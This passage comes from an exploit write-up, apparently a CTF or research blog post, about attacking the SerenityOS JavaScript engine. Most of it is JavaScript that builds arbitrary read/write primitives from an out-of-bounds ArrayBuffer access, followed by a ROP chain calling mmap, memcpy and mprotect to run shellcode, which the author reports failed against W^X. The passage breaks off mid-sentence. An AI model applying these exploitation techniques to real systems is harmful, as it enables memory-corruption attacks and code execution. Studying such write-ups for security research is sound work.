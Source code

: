 ```js

var a1_arraybuffer = m_target + 128 + 32
console.log("a1 m_viewed_array_buffer =", a1_arraybuffer.toString(16))

// Now that we know the pointer of m_viewed_array_buffer (i. e. the start address of our oob read/write) we have arbitrary read/write
function read(addr) {
  if (addr >= a1_arraybuffer) {
    return a1.oob((addr - a1_arraybuffer) / 4)
  } else {
    return a1.oob(((~a1_arraybuffer + 1) >>> 0) / 4 + addr / 4)
  }
}

function write(addr, value) {
  if (addr >= a1_arraybuffer) {
    a1.oob((addr - a1_arraybuffer) / 4, value)
  } else {
    a1.oob(((~a1_arraybuffer + 1) >>> 0) / 4 + addr / 4, value)
  }
}
```

With those primitives exploitation should be easy right?
After avoiding some pitfalls, nope it isn't.
Specifically, I tried to go some shellcode routes:
```js
var pop5 = libc_base + 0x0008e44b // add esp, 4; mov eax, esi; pop ebx; pop esi; pop edi; pop ebp; ret;
var pop7 = libc_base + 0x0001a5e5 // add esp, 0x10; inc eax; pop ebx; pop esi; pop ebp; ret;

var chain = [
  mmap,
  0xDEADBEEF, // padding, not sure why needed here?
  pop7,
  0xaa000000,
  0x2000,
  PROT_READ | PROT_WRITE | PROT_EXEC,
  MAP_PRIVATE | MAP_FIXED | MAP_ANONYMOUS,
  0, // fd
  0, // offset
  0xDEADBEEF, // padding for pop7

  memcpy,
  pop5,
  0xaa000000, // dst
  shellcode_ptr, // src
  shellcode.length * 4,
  0xDEADBEEF,
  0xDEADBEEF,

  mprotect,
  pop5,
  0xaa000000,
  0x2000,
  PROT_READ | PROT_EXEC,
  0xDEADBEEF,
  0xDEADBEEF,

  0xaa000000,
]
```
... which turned out to be very unsuccessfull because SerenityOS does not allow marking pages eXecutable if they were writeable beforehand: